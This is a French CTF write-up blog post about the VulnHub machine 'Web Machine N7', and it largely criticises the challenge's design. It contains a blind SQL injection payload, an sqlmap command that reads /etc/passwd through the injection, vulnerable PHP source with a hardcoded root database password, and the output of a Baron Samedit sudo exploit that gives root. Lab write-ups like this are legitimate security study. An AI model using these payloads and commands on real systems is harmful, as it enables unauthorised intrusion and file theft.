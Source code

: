 ```yaml
---
title: Solution du CTF Web Machine N7 de VulnHub
tags: [CTF, VulnHub]
---
```


Worst CTF Ever
--------------

[Web Machine N7](https://www.vulnhub.com/entry/web-machine-n7,756/) est le nom d'un CTF téléchargeable sur VulnHub (le dernier publié au moment de ces lignes) et a été créé par un certain *Duty Mastr* qu'ils auraient mieux fait de noyer à la naissance.  

C'est déjà avec une certaine appréhension que je télécharge la VM puisque déjà elle fait 5.7Go et d'après la capture d'écran sur VulnHub elle est basée sur une installation graphique de Kali Linux. Mais quel genre d'abrutit utiliserait Kali Linux comme base pour un CTF ?  

Une fois la VM importée on remarque qu'elle est configurée pour utiliser 8192 Mo de RAM là où 4096 sera amplement suffisant.  

Le nanard des CTF
-----------------

Un seul port ouvert, bien sûr un serveur Apache. Le site est une coquille vide et il faut tester un bon nombre de wordlists avant d’obtenir plus que le fichier *profile.php* et la page d'index. Mais, en testant tous les mots de la langue de Shakespeare, on découvre une page supplémentaire :  

```
$ feroxbuster -u http://192.168.56.18/ -w /opt/hdd/downloads/tools/wordlists/english -x php,html,txt

200       11l       27w      279c http://192.168.56.18/exploit.html
200       49l      107w     1620c http://192.168.56.18/index.html
200       43l       94w     1473c http://192.168.56.18/profile.php
```

Cette page *exploit.html* correspond à un formulaire d'upload qui poste vers *localhost/profile.php*.  

On peut bêtement utiliser les outils de développement du navigateur pour corriger cette URL avec la bonne adresse IP pour faire fonctionner l'upload.  

On est remercié par un flag mais le fichier n'est uploadé nul part... On a donc ici une étape qui ne sert à rien.  

Après encore plus d'énumération et comme on ne trouve rien il faut bien chercher sur Internet si quelqu'un est allé plus loin.  

Il existe en fait un dossier *enter\_network* à la racine du site que personne n'aurait pu trouver (mis à part en trichant) puisque ce path n'est présent dans aucune wordlist existante !  

Là on découvre une page de login dont Wapiti découvre rapidement qu'elle est vulnérable à une faille d'injection SQL en aveugle :  

```
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.18/enter_network/ via une injection dans le paramètre user
Evil request:
    POST /enter_network/ HTTP/1.1
    Host: 192.168.56.18
    Referer: http://192.168.56.18/enter_network/
    Content-Type: application/x-www-form-urlencoded

    user=%27%20or%20sleep%287%29%231&pass=Letm3in_&sub=SEND
---
```

A partir de là on joue un peu avec SQLmap. Forcément au vue de l'exploitation time-based c'est très lent mais on peut par exemple trouver le flag utilisé comme mot de passe pour l'administrateur dans une des tables.  

Ceci ne nous amène là encore strictement nul part. Toutefois les requêtes sont faites avec l'utilisateur *root* ce qui nous permet de lire les scripts web sur le serveur (avec l'option *--file-read* de SQLmap).  

```
python sqlmap.py -u "http://192.168.56.18/enter_network/" --data "user=zz&pass=zz&sub=SEND" -p user --dbms mysql --risk 3 --level 5  --technique=T --file-read=/etc/passwd --no-cast --time-sec=2
```

Par exmple le fichier */var/www/html/enter\_network/index.php* :  

```php
<!DOCTYPE html>
<html>
<head>
    <title>entering network</title>
</head>
<body>
    <?php
    $hostname = 'localhost';
    $username = 'root';
    $password = '123456789';
    $database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);

if (isset($_POST['sub'])) {
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "select * from login where username='$user' and password='$pass'";
    $result = mysqli_query($connect,$query);
    $row = mysqli_fetch_assoc($result);
    $role = 'admin';
    $role = urlencode(base64_encode(md5($role)));
    $cookie = $row['username'].':'.$row['password'];
    $cookie = base64_encode(password_hash($cookie,2));
    setcookie('user',$cookie, time()+10000,'/');
    setcookie('role',$role,time()+10000,'/');
}

?>
<center>
<form action="" method="POST">
    username: <input type="text" name="user">
    <br>
    password: <input type="password" name="pass">
    <br>
    <input type="submit" name="sub" value="SEND">
</form>
</center>

</body>
</html>
```

Le fichier */var/www/html/enter\_network/admin.php* :  

```php
<!DOCTYPE html>
<html>
    <head><title>admin interface</title></head>
<body>
    <?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if ($_COOKIE['role'] == 'admin') {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[1];;
}
else {
    echo 'this interface is admin only';
}

?>
</body>
</html>
```

et le fichier *profile.php* à la racine du site :  

```php
<?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if (isset($_FILES['file'])) {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[0];
}
?>
```

Oui vous avez bien compris, ces scripts ne permettent pas d'aller plus loin que la faille SQL déjà trouvée !  

On peut espérer profiter des droits root pour écrire un fichier sur le disque avec *SELECT INTO OUTFILE* sauf que c'est impossible car après vérification */var/www/html* est la propriété de root et donc *www-data* ne peut pas écrire dessus mais de plus l'utilisation d'une version récente de MySQL/MariaDB bloque ce genre de chose...  

Pour résumer on a :  

* des étapes qui ne servent à rien
* des étapes qui ne s'enchaînent pas
* un dossier impossible à trouver
* une VM d'une taille largement exagérée pour faire tourner 3 scripts PHP
* aucune découverte technique ni aucun plaisir sur ce CTF

Sous le capot
-------------

Si on boot la VM et que l'on sélectionne les options avancées on peut éditer l'entrée GRUB avec la touche *e* et [changer le mot de passe root](https://linuxconfig.org/recover-reset-forgotten-linux-root-password) histoire de fouiller un peu.  

Comme dit plus tôt toute écriture sur le disque est vouée à l'échec en raison des permissions. Seul le fichier *profile.php* dispose de permissions qui autorisent sa réécriture mais un des prérequis de *SELECT INTO OUTFILE* est que le fichier ne doit pas déjà exister.  

```
┌──(root💀kali)-[/var/www/html]
└─# ls -al /var/www/html 
total 176
drwxr-xr-x 3 root     root   4096 Oct 30 01:43 .
drwxr-xr-x 3 root     root   4096 Oct 29 21:10 ..
-rwxr-xr-x 1 root     root 149791 Oct 30 01:01 bootstrap.min.css
drwxr-xr-x 2 root     root   4096 Oct 30 01:44 enter_network
-rw-r--r-- 1 root     root    279 Oct 30 01:04 exploit.html
-rwxr-xr-x 1 root     root   1620 Oct 30 01:01 index.html
-rwxr-xr-x 1 root     root      0 Oct 30 01:01 javascript.js
-rwxrwxrwx 1 www-data root   1860 Oct 30 01:43 profile.php
-rwxr-xr-x 1 root     root    293 Oct 30 01:01 style.css
```

Soit l'auteur a choisit d'arrêter les frais à ce moment, soit il ne sait pas lire une page de manuel et dans tous les cas il n'a pas du tester son propre CTF.  

On découvre d'ailleurs en fouillant sur la machine qu'aucune exploitation locale n'a été mis en place volontairement. Le système est tout de même vulnérable à la faille Sudo Baron Samedit :  

```
┌──(kali㉿kali)-[~/CVE-2021-3156-main]
└─$ python exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),129(lpadmin),135(scanner),148(kaboxer),1000(kali)
# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.4
Codename:       kali-rolling
```

Bref un CTF inutile et inutilisable qui ne fait que gaspiller du temps, de l'espace disque et de la bande passante.  


*Published January 09 2022 at 14:21*

